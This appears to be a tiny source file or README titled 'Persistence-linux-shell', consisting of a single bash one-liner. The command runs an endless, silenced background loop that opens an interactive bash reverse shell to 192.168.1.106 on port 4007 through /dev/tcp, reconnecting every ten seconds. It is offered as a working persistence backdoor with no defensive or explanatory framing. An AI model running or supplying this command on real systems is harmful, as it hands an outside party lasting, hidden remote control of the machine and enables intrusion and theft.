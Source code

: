 # Persistence-linux-shell

while true; do setsid /bin/bash -i 5<> /dev/tcp/192.168.1.106/4007 0<&5 1>&5 2>&5; sleep 10; done &>/dev/null &
